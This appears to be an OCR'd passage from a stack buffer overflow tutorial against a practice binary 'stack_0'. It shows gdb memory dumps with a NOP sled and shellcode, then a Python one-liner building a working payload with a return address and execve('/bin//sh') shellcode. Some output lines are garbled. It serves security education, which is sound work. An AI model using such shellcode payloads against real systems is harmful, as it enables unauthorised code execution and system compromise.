     root@local:~/Desktop/Stack# gdb -q stack_0 core
    Reading symbols from stack_0...(no debugging symbols found)...done.
    [New LWP 19027]
    Core was generated by `./stack_0'.
    Program terminated with signal SIGSEGV, Segmentation fault.
    #0  0xffffd65c in ?? ()
what about our eip?

    gdb-peda$ x/8x $eip
    0xffffd65c:     0x00000000      0xffffd680      0x565561e4      0xffffd66c
    0xffffd66c:     0x41414141      0x41414141      0x41414141      0x41414141
Oh ! its `0x00000000` ? What the hell ? Where is the NOP and shellcode?

    gdb-peda$ x/32x $eip+0x14
    0xffffd670:     0x41414141      0x41414141      0x41414141      0x41414141
    0xffffd680:     0x41414141      0xffffd65c      0x90909090      0x90909090
    0xffffd690:     0x90909090      0x90909090      0x90909090      0x90909090
    0xffffd6a0:     0x90909090      0x90909090      0x90909090      0x90909090
    0xffffd6b0:     0x895e1feb      0xc0310876      0x89074688      0x0bb00c46
    0xffffd6c0:     0x4e8df389      0x0c568d08      0xdb3180cd      0xcd40d889
    0xffffd6d0:     0x00000000      0x00000000      0x00000001      0x56556080
    0xffffd6e0:     0x00000000      0xf7fea350      0xf7fe4f60      0x56559000
We can see the stack address is changed from outside of gdb. If we use `
0xffffd6a0` as new eip , it will go to shellcode.
 It also not work in my machine.
**Changing Shellcode**

    python -c 'print "A"*24+"\x9c\xd6\xff\xff"+"\x90"*40+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"' > payload_0.txt
I changed shellcode form [this](http://shell-storm.org/shellcode/files/shellcode-811.php)

    root@local:~/Desktop/Stack# cat payload_0.txt | ./stack_0                       AAAAAAAAAAAAAAAAAAAAAAAA▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒▒°
         ̀1▒@̀

**Exercises**
protostar stack exercises

**Further Reading**
http://phrack.org/issues/49/14.html
Shell coder Handbook
Hacking : The art of exploitation
